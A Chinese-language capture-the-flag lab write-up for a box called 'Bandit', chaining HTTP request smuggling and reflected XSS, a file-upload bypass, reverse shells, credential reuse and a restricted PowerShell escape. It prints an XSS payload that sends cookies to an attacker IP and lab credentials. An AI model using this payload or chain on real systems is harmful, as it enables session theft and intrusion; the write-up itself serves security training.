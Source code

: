 # Bandit

在遥远的未来的元宇宙中，一个名叫杰克剥削者的臭名昭著的网络犯罪分子被抓获，试图从国王的加密钱包中窃取。作为惩罚，他被迫参加多个沙盒游戏。你能帮助他逃脱，远离国王的军队并找到所有的旗帜吗？

为了帮助剥削者杰克，你需要通知他你正在接受挑战！

## 思路

整体来看比较偏简单，没有什么太大的技术难点，基础中的基础，就是由于公共实验环境的缘故，靶机可能会出现一些问题导致无法正常继续需要重置。

首先通过web的http请求走私漏洞搭配反射xss窃取信息，然后绕过限制导致任意文件上传从而RCE，通过对web服务器进行简单的本地系统信息收集，我们可以读取一组新的凭据用于通过winrm登录到内网windows机器上，这组凭据直接具有windows的本地管理员权限

最终我们发现在windows上我们处于一个受限的shell环境，最后发现一个自定义cmdlet存在注入漏洞，导致rce逃逸出受限环境

就此所有机器向我们妥协

## 外部信息收集

### 端口扫描

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/e2ebacc7c0164828b03d760bdefbfda8.png)

80端口的服务可以找到个http走私

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/70409e26bf024286824bdde27082b0cf.png)

### Web枚举

gobuster

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/9d92f191cf52461dbff737f2387f5b3f.png)

在80端口中，有一个reflected xss

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/5749d8fe37d84bc5920f2a4ca4980409.png)

## HTTP请求走私 + XSS

web除了一个xss还有登录页面，结合目前的信息，很容易联想到http走私+xss窃取cookie进入后台

http请求走私没有找到poc，但是很容易就试出来了，CL-TE

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/ed07034c8d014a6dba062826b86ed64b.png)

借助xss把cookie弹到我们这边来

```javascript
GET /?filter="/><script>new+Image().src%3d'http%3a//10.50.127.163%3a8000/%3fc%3d'%2bdocument.cookie</script> HTTP/1.1
foo:
```

它会到来

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/c28d40910ae546c38fe374395f17fc93.png)

## Foothold

带着cookie访问upload.php

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/3b8ebcc3dc2a4eff98aa11efca2d95ca.png)

这里简单一测就可以测出来，限制图片类型和文件大小

通过修改MIME类型和缩短payload就可以上传我们的php payload

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/19dee142112e446b9da053e513fdd7fc.png)

直接访问发现没访问到

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/b8859a7eb5d34e189c17dffb13837cb4.png)

根据祖传打靶经验，就可以联想到MD5文件名

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/7789f5a6442843389f36a8ecd8729d71.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/0b0c5a955aff45a5993ee7cf2ebf7d47.png)

基操基操

用nc直接连我们的攻击机发现是成功的，直接nc常规反向shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/44e6cbafb9984824b2be4048f61499a5.png)

结果发现过不来，一下就断了，直接上msf

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/731d1d5ec61f4fd2ae3a5c40b6064fac.png)

curl上传

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/389d27acbc2544d68c98837ed8f94611.png)

给权限然后运行，getshell

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/d87936987a62409b817a7f97d4b6266d.png)

## Docker逃逸

在auth.php中看到了登录的凭据，先保存下来

```php
if ($user === 'safeadmin' && $pass === 'HardcodedMeansUnguessableRight') {
        return TRUE;
    }
```

在容器中翻了个遍，什么也没找着

最后尝试刚刚找到的凭据登录宿主机ssh发现可行

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/d914eec527c34ad3a59086746f1b9e22.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/3c32482afa4f4f0bb55588d302501fca.png)

## 内网信息收集

### .10端口扫描

查看/etc/hosts可以发现.10机器

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/6b696ab65298440e971314f71af12f50.png)

传个nmap过去快速扫一下端口

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/b624e3d66db14bd48582867b0e1d5418.png)

最后我发现不需要建立隧道，可以直接访问到.10机器，那么就不考虑sshuttle

### .105本地信息收集

我发现了机器上存在powershell，safeadmin用户下存在ConsoleHost_history.txt,并且在ubuntu用户下发现了ConsoleHost_history.txt

但是很不幸的是，可能受到公共实验环境的影响，恰好密码变量定义那一行被覆盖了，万般无奈之下只能有请wp的帮助

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/d8a5770de6fa4f439c1ec6acc6d33419.png)

	safeuserHelpDesk:Passw0rd

## .10权限提升

现在我们可以通过复制粘贴登录进.10机器，通过whoami，我发现了该账户是本地管理员

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/a9c11d3166d54e4c963ae7ab8f5e20a5.png)

很遗憾的是我们进入了一个受限的环境，大多数命令都无法使用

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/6f452fda6e7b41a591b949fdb9ed181a.png)

通过get-command我们可以发现仅有的cmdlet

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/02f5578121ab44eab784b8c68cd02e74.png)

Get-ServicesApplication这个cmdlet会输出所有服务名

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/59e92e16a6da4e159cb552362a3f4912.png)

通过get-help我们发现它还有一个filter参数

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/5dc2861ac474428989b846968684be1c.png)

当我们尝试在filter参数中注入特殊字符时，我们就打开了突破的大门

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/71b10604dac44a709463e1bf1c712cd9.png)

最后的rce也很常规，懒得getshell了，拿flag走人

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/5da13a5997814ce3a910a8d367a34c75.png)
